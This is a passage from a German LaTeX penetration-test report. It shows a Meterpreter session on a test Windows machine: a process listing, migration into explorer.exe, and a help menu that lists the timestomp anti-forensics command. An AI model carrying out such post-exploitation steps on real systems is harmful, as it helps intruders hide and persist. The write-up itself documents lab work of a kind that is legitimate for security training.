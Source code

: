 Wir waren erfolgreich, und sind jetzt auf dem Zielsystem. Anschließend wurde
noch nach laufenden Prozessen auf dem Zielsystem gesucht. Uns interessierte der
Prozess 1696 (explorer.exe):
\begin{lstlisting}[language=Metasploit]
meterpreter > ps

Process list
============
 PID   Name              Arch  Session  User  Path
 ---   ----              ----  -------  ----  ----

 0     [System Process]

 4     System            x86   0        $U$NTAUTORITT\SYSTEM-0x4e542d4155544f524954c4545c53595354454d
.
.
.

 1488  dfssvc.exe        x86   0        $U$NTAUTORITT\SYSTEM-0x4e542d4155544f524954c4545c53595354454d                          C:\WINDOWS\system32\Dfssvc.exe

 1696  explorer.exe      x86   0        TEST-174JNJRAFI\Administrator                                                          C:\WINDOWS\Explorer.EXE

.
.
.
 2012  cmd.exe           x86   0        TEST-174JNJRAFI\Administrator                                                          C:\WINDOWS\system32\cmd.exe
\end{lstlisting}

Wir migrierten zum Prozess 1696:
\begin{lstlisting}[language=Metasploit]
meterpreter > migrate 1696

[*] Migrating to 1696...

[*] Migration completed successfully.

meterpreter > ?

Core Commands
=============
    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bgkill                    Kills a background meterpreter script

.
.
.

Priv: Timestomp Commands
========================

    Command       Description
    -------       -----------
    timestomp     Manipulate file MACE attributes
\end{lstlisting}

